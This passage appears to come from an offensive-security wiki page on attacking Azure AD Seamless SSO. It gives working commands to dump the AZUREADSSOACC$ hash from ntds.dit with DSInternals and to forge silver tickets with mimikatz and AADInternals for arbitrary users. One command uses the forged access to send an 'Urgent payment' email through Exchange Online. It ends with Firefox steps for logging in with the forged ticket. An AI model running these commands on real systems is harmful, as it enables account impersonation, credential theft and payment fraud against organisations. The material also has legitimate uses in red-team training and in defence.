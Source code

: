 ```bash
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

> [!NOTE]
> With the current information you could just use the tool **SeamlessPass** as indicated previously to get azure and entraid tokens for any user in the domain.
> You could also use the previous techniques (and other) to get the hash of the password of the victim you want to impersonate instead of the `AZUREADSSOACC$` account.

#### Creating Silver Tickets

With the hash you can now **generate silver tickets**:

```bash
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:autologon.microsoftazuread-sso.com /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:autologon.microsoftazuread-sso.com /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

### Using Silver Tickets with Firefox

To utilize the silver ticket, the following steps should be executed:

1. **Initiate the Browser:** Mozilla Firefox should be launched.
2. **Configure the Browser:**
   - Navigate to **`about:config`**.
   - Set the preference for [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) to the specified [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     - `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
   - Navigate to Firefox `Settings` > Search for `Allow Windows single sign-on for Microsoft, work and school accounts` and enable it.
3. **Access the Web Application:**
   - Visit a web application that is integrated with the organization's AAD domain. A common example is [login.microsoftonline.com](https://login.microsoftonline.com/).
4. **Authentication Process:**
   - At the logon screen, the username should be entered, leaving the password field blank.
   - To proceed, press either TAB or ENTER.
